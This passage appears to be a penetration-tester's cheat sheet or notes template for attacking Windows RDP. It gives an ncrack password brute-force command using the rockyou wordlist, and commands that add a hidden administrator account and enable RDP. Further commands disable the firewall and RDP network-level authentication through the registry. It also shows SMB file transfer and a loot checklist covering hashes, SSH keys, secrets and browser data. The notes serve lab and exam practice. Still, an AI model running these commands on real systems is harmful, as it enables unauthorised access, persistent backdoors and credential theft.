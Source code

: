 ```
ncrack -vv --user george -P /usr/share/wordlists/rockyou.txt rdp://INSERTIPADDRESS
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

**File Transfer**

```
# Transfer files over SMB
impacket-smbserver SHARE <DIR>
```


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:
